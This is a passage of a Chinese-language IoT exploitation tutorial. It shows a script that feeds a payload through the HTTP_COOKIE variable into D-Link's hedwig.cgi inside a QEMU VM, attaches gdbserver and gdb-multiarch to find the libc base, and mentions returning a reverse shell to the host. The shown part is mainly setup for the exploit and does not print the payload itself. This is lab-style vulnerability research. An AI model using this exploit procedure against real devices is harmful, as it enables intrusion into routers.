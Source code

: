创建完记得给权限

```
chmod +x fin.sh
```

## EXP

### 方法一：将生成的payload传给qemu机

这种方式其实是**不需要用`httpd -f http_conf`启动`httpd`服务的**，就是在`Ubuntu`物理机中将`payload`传给`qemu`虚拟机，然后在`qemu`中打`payload`并反弹`shell`给物理机。

首先，我们还是得确定`libc_base`，这里要用到`gdbserver`（[项目地址](https://github.com/rapid7/embedded-tools/tree/master/binaries/gdbserver)），下载对应的`gdbserver.mipsel`即可，然后将其传到`qemu`中，在`qemu`中用以下`run.sh`脚本启动：

```
#!/bin/bash
export CONTENT_LENGTH="11"
export CONTENT_TYPE="application/x-www-form-urlencoded"
export HTTP_COOKIE="uid=`cat payload`"
export REQUEST_METHOD="POST"
export REQUEST_URI="2333"
echo "winmt=pwner"|./gdbserver.mipsle 192.168.188.133:6666 /htdocs/web/hedwig.cgi
#echo "winmt=pwner"|/htdocs/web/hedwig.cgi
unset CONTENT_LENGTH
unset CONTENT_TYPE
unset HTTP_COOKIE
unset REQUEST_METHOD
unset REQUEST_URI

```

![image-20220427163458070](https://s2.loli.net/2022/04/28/cdN7bvlHGpmtorJ.png)

![image-20220427163436615](https://s2.loli.net/2022/04/28/bNsdpRErmgfL5Uu.png)

## gdb-multiarch使用

```
gdb连接调试（在ubuntu下运行）
gdb-multiarch -q ./bin/httpd    #-q参数，忽略一些警告提示

pwndbg> set  architecture arm（可忽略）
The target architecture is assumed to be arm
pwndbg>set sysroot /usr/arm-linux-gnueabi     设置动态链接库
pwndbg> target remote 127.0.0.1:1234

```

这里的`192.168.188.133`是物理机的`IP`，`6666`是自己设置的连接的端口，直接用`gdb-multiarch`设置好架构后，用`target remote 192.168.188.134(qemuip):6666`连上即可，然后直接`vmmap`就能拿到`libc_base`

![image-20220427163746294](https://s2.loli.net/2022/04/28/bXkIveCgWRxsZYz.png)
